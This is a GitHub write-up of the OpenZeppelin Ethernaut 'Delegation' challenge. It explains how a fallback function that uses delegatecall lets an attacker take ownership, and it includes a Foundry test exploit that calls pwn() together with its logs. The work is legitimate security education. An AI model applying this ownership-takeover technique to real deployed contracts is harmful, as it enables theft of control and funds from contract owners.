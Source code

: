 # What is OpenZeppelin Ethernaut?

OpenZeppelin Ethernaut is an educational platform that provides interactive and gamified challenges to help users learn about Ethereum smart contract security. It is developed by OpenZeppelin, a company known for its security audits, tools, and best practices in the blockchain and Ethereum ecosystem.

OpenZeppelin Ethernaut Website: [ethernaut.openzeppelin.com](ethernaut.openzeppelin.com)

<br>

# What You're Supposed to Do?

in `06-Delegation` Challenge, You Should Try To find a Way to Take Ownership of `Delegation` Contract with `delegatecall`.

`06-Delegation` Challenge Link: [https://ethernaut.openzeppelin.com/level/6](https://ethernaut.openzeppelin.com/level/6)

<br>

# How did i Complete This Challenge?

To complete this challenge, you should first understand how `delegatecall` works.

Think of `delegatecall` as borrowing a function from another contract and using it only once before returning it. What you should keep in mind is that when we borrow a function from another contract, we execute it in the context of the calling contract's state. This means the state variables and storage of the contract that made the `delegatecall` will change, not the state variables and storage of the target contract.

Now Lets take a Look At the Codebase:

in `Delegation` Contract We Have an Fallback Function, Which is Executed When a Function that does not exist is called or Ether is sent directly to a contract but `receive()` does not exist or `msg.data` is not empty.

```javascript
    contract Delegation {
        address public owner;
        Delegate delegate;

        constructor(address _delegateAddress) {
            delegate = Delegate(_delegateAddress);
            owner = msg.sender;
        }

        fallback() external {
            (bool result,) = address(delegate).delegatecall(msg.data);
            if (result) {
                this;
            }
        }
    }
```

What Attacker Would Do is trigger the `fallback()` function with `bytes memory data = abi.encodeWithSignature("pwn()");` as `msg.data`.

What Will This Do is, Is Gonna `delegatecall` target Contract `pwn()` function. Basically We Gonna Borrow the `pwn()` function from target Contract and Place it in our Contract, then After
We Executed it, We Gonna Give it Back.

So When the `delegatecall` to target Contract is Made, Our `Delegation` Contract, Looks Like this:

```javascript
    contract Delegation {
        address public owner;
        Delegate delegate;

        constructor(address _delegateAddress) {
            delegate = Delegate(_delegateAddress);
            owner = msg.sender;
        }

        function pwn() public {
            owner = msg.sender;
        }   

        fallback() external {
            (bool result,) = address(delegate).delegatecall(msg.data);
            if (result) {
                this;
            }
        }
    }
```

then We Execute `pwn()` with Context of the `Delegation` Contract and then we Give it Back. 

What `pwn()` function it stores `msg.sender` in `owner` variable. in This Particular Example the `msg.sender` is the One that Triggered the `fallback()` function.

also i Wrote Test For this Attack, it's Called `testtakeOwnerShipOfContractWithDelegateCall` inside the `Delegation.t.sol`:


```javascript
    function testtakeOwnerShipOfContractWithDelegateCall() public {
        vm.startPrank(ownerOfDelegationContract);
        assertEq(ownerOfDelegationContract, delegation.owner());
        console.log("Delegation Contract Owner Address: ", ownerOfDelegationContract);
        console.log("Attacker Address: ", attacker);
        vm.stopPrank();

        vm.startPrank(attacker);
        bytes memory data = abi.encodeWithSignature("pwn()");
        console.log("Current Owner Of Delegation Contract Before the Attack: ", delegation.owner());
        (bool success, ) = address(delegation).call(data);
        require(success, "Low Level Call Failed!");
        console.log("Current Owner Of Delegation Contract Before the Attack: ", delegation.owner());
        assertEq(attacker, delegation.owner());
        vm.stopPrank();
    }
```

You Can Run This Test inside Your Terminal With Following Command:

```javascript
    forge test --match-test testtakeOwnerShipOfContractWithDelegateCall -vvvv
```

Take a Look at the `Logs`:

```javascript
    Logs:
        Delegation Contract Owner Address:  0xf96Fa8Ef1e8D70d88ce300ED942026Fa0270262c
        Attacker Address:  0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e
        Current Owner Of Delegation Contract Before the Attack:  0xf96Fa8Ef1e8D70d88ce300ED942026Fa0270262c
        Current Owner Of Delegation Contract Before the Attack:  0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e
```

<br>

### i Hope this Made Sense for You, if it doesn't, then i recommend You Read this Two Documents About `delegatecall`:

1. [https://solidity-by-example.org/delegatecall/](https://solidity-by-example.org/delegatecall/)
2. [https://medium.com/@ajaotosinserah/mastering-delegatecall-in-solidity-a-comprehensive-guide-with-evm-walkthrough-6ddf027175c7](https://medium.com/@ajaotosinserah/mastering-delegatecall-in-solidity-a-comprehensive-guide-with-evm-walkthrough-6ddf027175c7)

